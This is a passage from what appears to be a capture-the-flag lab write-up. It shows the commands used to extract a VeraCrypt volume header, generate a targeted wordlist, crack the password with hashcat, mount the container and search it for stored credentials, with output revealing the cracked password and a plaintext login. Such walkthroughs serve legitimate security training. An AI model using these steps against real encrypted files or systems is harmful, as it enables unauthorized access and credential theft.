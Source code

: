 This analysis made compromising the `svc_sspr` account the primary objective for privilege escalation.

---
### Privilege Escalation

#### Cracking the VeraCrypt Container

The `IT_BACKUP_201123.hc` file was targeted. The first 512 bytes, containing the encrypted volume header, were extracted for cracking.

*   **Command**:
    ```zsh
    dd if=./IT_BACKUP_201123.hc of=./hash bs=512 count=1
    ```

Based on a hint from the CTF platform, a targeted wordlist was generated.

*   **Command**:
    ```zsh
    crunch 12 12 -t 'Phantom202%^' -o wordlist.txt
    ```

`hashcat` was used to crack the VeraCrypt volume password.

*   **Command**:
    ```zsh
    hashcat -a 0 -m 13722 hash wordlist.txt
    ```
*   **Result**:
    ```zsh
    hash:Phantom2023!
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 13722 (VeraCrypt SHA512 + XTS 1024 bit (legacy))
    Hash.Target......: hash
    Time.Started.....: Fri Oct 17 09:09:08 2025 (6 secs)
    Time.Estimated...: Fri Oct 17 09:09:14 2025 (0 secs)
    ```

#### Mounting the Container and Finding Credentials

With the password `Phantom2023!`, the container was mounted.

*   **Command**:
    ```zsh
    veracrypt IT_BACKUP_201123.hc /mnt/ --password='Phantom2023!'
    ```

A recursive search for the string "password" within the mounted files yielded a promising result.

*   **Command**:
    ```zsh
    rg -i "password"
    ```
*   **Output Snippet**:
    ```
    run/vyatta/config/config.json
    {"local-users": {"username": {"lstanley": {"password": "gB6XTcqVP5MlP7Rc"}}}
    ```
